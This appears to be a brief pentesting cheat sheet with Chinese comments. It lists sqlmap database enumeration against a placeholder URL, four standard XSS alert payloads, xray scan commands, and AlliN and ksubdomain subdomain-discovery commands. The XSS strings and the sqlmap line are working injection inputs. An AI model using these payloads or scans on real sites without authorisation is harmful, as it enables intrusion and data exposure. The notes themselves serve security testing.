 # SQLmap

```python
python sqlmap.py -u  "https://xxx.xxx" --dbs
```

# XSS

```javascript
<script>alert(1)</script>
<img src=x onerror=alert(1) />
<svg onload=alert('XSS')>
"><script>alert('XSS')</script>
```

# Xray

```shell
# 网络扫描
.\xray_windows_386.exe webscan --listen 127.0.0.1:7777 --html-output xray.html

# 服务扫描
.\xray_windows_386.exe servicescan -t 127.0.0.1:7777
```

# AlliN

```python
# 按域名爬取
python AlliN.py --host $host -m subscan --project $project --timeout 6

# 按文件爬取
python AlliN.py -f domain.txt
```

# ksubdomain

```shell
# 使用内置字典爆破
ksubdomain -d seebug.org

# 使用字典爆破域名
ksubdomain -d seebug.org -f subdomains.dict

# 字典里都是域名，可使用验证模式
ksubdomain -f dns.txt -verify
```